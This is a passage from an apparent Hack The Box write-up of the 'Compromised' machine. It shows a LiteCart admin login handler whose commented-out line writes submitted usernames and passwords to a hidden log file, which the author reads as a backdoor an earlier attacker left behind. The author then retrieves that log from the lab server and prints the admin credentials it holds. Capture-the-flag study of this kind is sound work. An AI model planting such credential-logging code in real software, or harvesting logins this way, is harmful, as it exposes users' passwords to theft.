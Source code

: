 ![](/assets/images/htb-compromised/06_compromised_login.php.png)

##### shop/admin/login.php (parsed)
``` php
  if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
    user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
  }
```

Now this is very strange! Why would the post request handler for the admin login page use the `file_put_contents()` function to put the provided credentials in a file? Remembering that this machine has been compromised, perhaps this was something that was left in the site by the attacker to keep a persistent log of the admin credentials. It is commented out here. And so, it seems that our backup may have been created after the admins believed they had cleaned up the attackers tracks. It logs a file named `.log2301c9430d8593ae.txt` in `shop/admin/`. We do not have this file in our backup, but perhaps it is still on the live site.

![](/assets/images/htb-compromised/07_compromised_admin_creds.png)

Awesome! It looks like this file does still exsist as `http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt` on the live server.

##### LiteCart Credentials
```
User: admin
Pass: theNextGenSt0r3!~
```

Now we can try to login to the admin side of LiteCart at `http://10.10.10.207/shop/admin`.

